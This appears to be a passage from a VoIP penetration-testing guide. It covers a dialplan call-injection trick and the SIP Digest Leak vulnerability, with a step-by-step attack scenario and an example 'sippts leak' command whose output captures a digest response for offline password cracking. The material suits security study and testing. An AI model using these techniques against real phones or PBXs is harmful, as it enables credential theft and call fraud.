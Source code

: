 ```scss
exten => 101&SIP123123123,1,Dial(SIP/101&SIP123123123)
```

Therefore, a call to the extension **`101`** and **`123123123`** will be send and only the first one getting the call would be stablished... but if an attacker use an **extension that bypasses any match** that is being performed but doesn't exist, he could be **inject a call only to the desired number**.

## SIPDigestLeak vulnerability

The SIP Digest Leak is a vulnerability that affects a large number of SIP Phones, including both hardware and software IP Phones as well as phone adapters (VoIP to analogue). The vulnerability allows **leakage of the Digest authentication response**, which is computed from the password. An **offline password attack is then possible** and can recover most passwords based on the challenge response.

**[Vulnerability scenario from here**](https://resources.enablesecurity.com/resources/sipdigestleak-tut.pdf):

1. An IP Phone (victim) is listening on any port (for example: 5060), accepting phone calls
2. The attacker sends an INVITE to the IP Phone
3. The victim phone starts ringing and someone picks up and hangs up (because no one answers the phone at the other end)
4. When the phone is hung up, the **victim phone sends a BYE to the attacker**
5. The **attacker issues a 407 response** that **asks for authentication** and issues an authentication challenge
6. The **victim phone provides a response to the authentication challenge** in a second BYE
7. The **attacker can then issue a brute-force attack** on the challenge response on his local machine (or distributed network etc) and guess the password

- **SIPPTS leak** from [**sippts**](https://github.com/Pepelux/sippts)**:** SIPPTS leak exploits the SIP Digest Leak vulnerability that affects a large number of SIP Phones. The output can be saved in SipCrack format to bruteforce it using SIPPTS dcrack or the SipCrack tool.

```bash
sippts leak -i 10.10.0.10

[!] Target: 10.10.0.10:5060/UDP
[!] Caller: 100
[!] Callee: 100

[=>] Request INVITE
[<=] Response 100 Trying
[<=] Response 180 Ringing
[<=] Response 200 OK
[=>] Request ACK
	... waiting for BYE ...
[<=] Received BYE
[=>] Request 407 Proxy Authentication Required
[<=] Received BYE with digest
[=>] Request 200 Ok

Auth=Digest username="pepelux", realm="asterisk", nonce="lcwnqoz0", uri="sip:100@10.10.0.10:56583;transport=UDP", response="31fece0d4ff6fd524c1d4c9482e99bb2", algorithm=MD5
```
